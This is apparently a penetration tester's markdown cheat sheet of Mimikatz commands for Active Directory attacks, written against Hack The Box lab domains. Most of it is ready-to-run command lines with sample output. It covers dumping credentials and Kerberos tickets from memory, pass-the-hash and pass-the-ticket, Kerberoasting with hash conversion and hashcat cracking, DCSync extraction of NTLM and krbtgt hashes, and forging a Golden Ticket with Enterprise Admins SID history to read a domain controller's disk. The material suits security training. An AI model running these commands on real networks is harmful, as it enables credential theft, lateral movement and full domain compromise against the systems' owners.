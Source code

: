 ```yaml
---
tags:
  - windows
  - PtH
  - PtT
  - kerberoasting
  - dcsync
  - sid-abuse
---
```

# Modules
## Logon Passwords
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit
```
## Export Tickets
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::tickets /export" exit
```
# Pass the Hash
Following are required:
- `/user` to authenticate as
- `/rc4` or `/NTLM` hash of the user's password.
- `/domain` the user to impersonate belongs to. If it's local user account, use the computer name, localhost, or a dot (.).
- `/run` - Program to run with the user's context (default cmd.exe).
```powershell
PS > mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<RC4/NTLM HASH> /domain:<domain> /run:cmd.exe" exit
```

# Pass the Key / OverPass the Hash
## Extract Kerberos Keys
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::ekeys" exit
```

```powershell
PS > mimikatz.exe privilege::debug "/domain:inlanefreight.htb /user:plaintext /ntlm:<HASH>" exit
```

```powershell
PS > mimikatz.exe privilege::debug 'kerberos::ptt "C:\Path\to\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"' exit
```
>**Note:** Instead of opening mimikatz.exe with `cmd.exe` and exiting to get the ticket into the current command prompt, we can use the  `misc` module to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

>**Note:** Mimikatz requires administrative rights for Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

# Powershell Remoting with PtT
```powershell
PS > mimikatz.exe privilege::debug 'kerberos::ptt "C:\Path\to\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"' exit
PS > Enter-PSSession -ComputerName DC01
```
# Kerberoasting
## Extract TGS Ticket from Memory
If the TGS ticket is in memory (from [[SetSPN]] for example), extract it:
```Powershell
mimikatz > base64 /out:true
mimikatz > kerberos::list /export

<SNIP>
[00000002] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
   Client Name       : htb-student @ INLANEFREIGHT.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
====================
Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
====================
doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgEFoRUbE0lOTEFO
RUZSRUlHSFQuTE9DQUyiOzA5oAMCAQKhMjAwGwhNU1NRTFN2YxskREVWLVBSRS1T
<SNIP>
LkxPQ0FMqTswOaADAgECoTIwMBsITVNTUUxTdmMbJERFVi1QUkUtU1FMLmlubGFu
ZWZyZWlnaHQubG9jYWw6MTQzMw==
====================
   * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
<SNIP>
```
>Without `base64 /out:true` command, it will extract the tickets in `.kirbi` files, with which we can directly skip to `kirbi2john` step.
## Prepare the file for Cracking
- Clean the base64 and convert to `.kirbi`:
```shell-session
$ echo "<base64 blob>" |  tr -d \\n >> encoded_file
$ cat encoded_file | base64 -d > sqldev.kirbi
$ kirbi2john sqldev.kirbi
$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs.hashcat
$ cat sqldev_tgs_hashcat 

$krb5tgs$23$*sqldev.kirbi*$813149fb<SNIP>8e71a057feeab
```
## Crack the Hash using [[Hashcat]]
```shell-session
$ hashcat -m 13100 sqldev_tgs.hashcat /usr/share/wordlists/rockyou.txt
```
# DCSync
Mimikatz must be ran in the context of the user who has DCSync privileges and only one user can be attacked at a time.
```cmd-shell
> runas /netonly /user:INLANEFREIGHT\adunn powershell
```

```powershell
PS > .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
... SNIP ...
	NTLM: <NTLM-HASH>
... SNIP ...
```
# Golden Ticket
- Obtain the KRBTGT Account's NT Hash:
```powershell
mimikatz > lsadump::dcsync /user:LOGISTICS\krbtgt
```
- Get current child domain SID using [[PowerView#[Get-DomainSID](https //powersploit.readthedocs.io/en/latest/Recon/Get-DomainSID/)|Get-DomainSID]]
- Get SID for Enterprise Admins group in the parent domain either with [[ActiveDirectory#[Get-ADGroup](https //docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps)|Get-ADGroup]] or [[PowerView#[Get-DomainGroup](https //powersploit.readthedocs.io/en/latest/Recon/Get-DomainGroup/)|Get-DomainGroup]]
```powershell
PS > Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```
- Request a Golden Ticket:
```powershell
mimikatz > kerberos::golden /user:hacker /domain:<CHILD-DOMAIN-FQDN> /sid:<CHILD-DOMAIN-SID> /krbtgt:<KTBTGT> /sids:<ROOT-DOMAIN-ENTERPRISE-ADMIN-SID> /ptt
```
The ticket can be confirmed with [[klist]]. And if the attack is successful, we should be able to read DC's whole C drive!
```powershell
PS > ls \\academy-ea-dc01.inlanefreight.local\c$
```